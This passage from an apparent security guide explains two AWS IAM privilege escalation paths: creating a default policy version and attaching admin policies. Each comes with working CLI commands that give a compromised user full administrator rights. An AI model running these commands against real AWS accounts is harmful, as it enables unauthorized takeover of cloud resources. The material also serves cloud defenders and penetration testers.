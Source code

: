 ### 1\. CreatePolicyVersion Attack Vector

The `iam:CreatePolicyVersion` permission represents one of the most dangerous privilege escalation paths in AWS. This attack exploits a subtle but critical design decision in AWS IAM.

**Technical Details:** When creating a new policy version, attackers can use the `--set-as-default` flag to automatically make their malicious policy version active without requiring the `iam:SetDefaultPolicyVersion` permission.

**Attack Sequence:**

```bash
# 1. Identify target managed policy attached to current user
aws iam list-attached-user-policies --user-name compromised-user

# 2. Create malicious policy document
cat > admin-policy.json << EOF
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": "*",
            "Resource": "*"
        }
    ]
}
EOF

# 3. Execute privilege escalation
aws iam create-policy-version \
    --policy-arn arn:aws:iam::ACCOUNT-ID:policy/VulnerablePolicy \
    --policy-document file://admin-policy.json \
    --set-as-default
```

**Impact Analysis:** This technique can escalate from minimal permissions to full administrator access in a single API call. The attack is particularly dangerous because it modifies existing policies rather than creating new ones, potentially evading detection systems that only monitor new policy creation.

> Note: This escalation path requires that the attacker already has access to a managed policy that is *attached to their own identity* (user, group, or role). Without such an attachment, creating a new version will not automatically escalate their privileges.

### 2\. Direct Policy Attachment Attacks

The `iam:AttachUserPolicy` permission allows attackers to attach any AWS managed or customer managed policy to users they can access, including themselves.

**Exploitation Method:**

```bash
# Escalate to administrator access
aws iam attach-user-policy \
    --user-name compromised-user \
    --policy-arn arn:aws:iam::aws:policy/AdministratorAccess

# Alternative: Attach specific service policies
aws iam attach-user-policy \
    --user-name compromised-user \
    --policy-arn arn:aws:iam::aws:policy/IAMFullAccess
```
